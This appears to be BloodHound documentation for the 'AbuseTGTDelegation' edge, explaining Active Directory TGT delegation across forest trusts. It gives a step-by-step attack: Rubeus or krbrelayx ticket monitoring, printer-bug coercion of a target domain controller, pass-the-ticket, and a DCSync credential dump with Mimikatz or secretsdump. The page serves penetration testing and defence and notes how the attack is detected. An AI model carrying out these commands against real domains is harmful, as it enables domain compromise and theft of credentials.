 ---
title: AbuseTGTDelegation
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 

The trust from the target node domain to the source node domain has TGT delegation enabled.

When a resource in the source node domain is configured with unconstrained delegation, principals from the target node domain will automatically forward their Ticket Granting Ticket (TGT) to that resource upon access.

Abuse Info
----------

TGT delegation allows an attacker to capture TGTs of privileged users or computers in the target domain when they authenticate against a system configured with unconstrained delegation.

A common attack method involves the attacker logging into a DC of the source domain and coercing a DC of the target domain. Since DCs have unconstrained delegation enabled by default, this grants the attacker a TGT for a target domain DC, which can then be used to perform a DCSync attack on the target domain. This guide details that version of the attack.

Alternatively, attackers can target other privileged computers or users besides DCs.

The attack will fail if the target is a member of Protected Users or is marked as not trusted for delegation, as their TGTs will not be sent to hosts with unconstrained delegation. You can identify all protected principals using the following Cypher query in BloodHound:

```cypher
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

Attackers can also exploit non-DC hosts or users in the source domain with unconstrained delegation enabled. To find all non-DC principals with unconstrained delegation in BloodHound, run:

```cypher
MATCH (n:Base)
WHERE n.unconstraineddelegation = TRUE AND NOT (n)-[:DCFor]->()
RETURN n
```

## Attack

**Step 1: Start Monitoring for TGTs**

Windows:

Log into a DC of the source domain and open a command prompt as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:targetdc.domain.local /interval:5 /nowrap
```

Linux:

Obtain credentials for a computer or user with unconstrained delegation.

Start monitoring for incoming TGTs using krbrelayx.py with the credentials of the unconstrained delegation account:

```bash
krbrelayx.py -aesKey 9ff86898afa70f5f7b9f2bf16320cb38edb2639409e1bc441ac417fac1fed5ab
```

**Step 2: Coerce the Target DC**

The printer bug is abused in this example. If the Print Spooler service is disabled on the target host, alternative coercion techniques must be used. See "Windows Coerced Authentication Methods" under References for details.

To coerce the target DC, Authenticated Users access is required in the target domain. If the trust relationship is bidirectional, all principals in the source domain have this access by default. If not, coercion must be executed as a principal from the target forest. Attackers can obtain such a session using the trust account attack. See "SID Filter as a Security Boundary Between Domains? (Part 7) - Trust Account Attack" under References for details.

Windows:

From any host in the domain, coerce the target DC using SpoolSample:

```bash
SpoolSample.exe targetdc.domain.local compromiseddc.otherdomain.local
```

Rubeus will print the DC TGT as soon as it is received.

Linux:

Coerce the target DC using printerbug.py:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised DC IP>
```

krbrelayx.py will save the received TGT to disk.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync the Target Domain**

Windows:

Use Mimikatz to DCSync the target domain from the machine where the DC TGT was injected:

```bash
lsadump::dcsync /domain:domain.local /user:DOMAIN\Administrator
```

Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

Opsec Considerations
----------

The attack can be detected by correlating Windows security events from the attacker-controlled host and the target. See the reference "Hunting in Active Directory: Unconstrained Delegation & Forests Trusts" for details.

References
----------

* [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
* [SID filter as security boundary between domains? (Part 7) - Trust account attack - from trusting to trusted](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
* [“Relaying” Kerberos - Having fun with unconstrained delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/)
* [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
* [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
* [Updates to TGT delegation across incoming trusts in Windows Server](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)
* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))